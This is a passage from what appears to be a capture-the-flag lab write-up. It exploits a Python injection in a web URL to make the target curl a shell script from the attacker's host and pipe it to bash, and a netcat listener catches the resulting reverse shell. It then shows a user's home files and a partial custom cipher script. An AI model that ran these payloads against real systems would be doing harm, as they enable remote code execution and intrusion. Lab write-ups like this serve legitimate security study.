 Start the netcat listener with `nc -lnvp 1337` and let's make a request to
download the reverse shell script and execute it:
```console
$ curl "10.10.10.168:8080/';import%20subprocess;subprocess.call('curl%20http://10.10.14.81:8000/shell.sh|/bin/bash',shell=True);'"
```

And after a second we should have it:
```console
$ nc -lnkvp 1337
Ncat: Version 7.80 ( https://nmap.org/ncat )
Ncat: Listening on :::1337
Ncat: Listening on 0.0.0.0:1337
Ncat: Connection from 10.10.10.168.
Ncat: Connection from 10.10.10.168:53436.
$ whoami
www-data
```

## Further exploration

There's a user called `robert` and there are some file in it's home:
```console
$ ls /home/robert
BetterSSH
check.txt
out.txt
passwordreminder.txt
SuperSecureCrypt.py
user.txt
```

This is `check.txt`:
```text
Encrypting this file with your key should result in out.txt, make sure your key is correct!
```

`out.txt` and `passwordreminder.txt` are binary files, and here's
`SuperSecureCrypt.py`:
```python
import sys
import argparse

def encrypt(text, key):
    keylen = len(key)
    keyPos = 0
    encrypted = ""
    for x in text:
        keyChr = key[keyPos]
        newChr = ord(x)
        newChr = chr((newChr + ord(keyChr)) % 255)
        encrypted += newChr
        keyPos += 1
        keyPos = keyPos % keylen
    return encrypted

def decrypt(text, key):
    keylen = len(key)
    keyPos = 0
    decrypted = ""
    for x in text:
        keyChr = key[keyPos]
        newChr = ord(x)
        newChr = chr((newChr - ord(keyChr)) % 255)
        decrypted += newChr
        keyPos += 1
```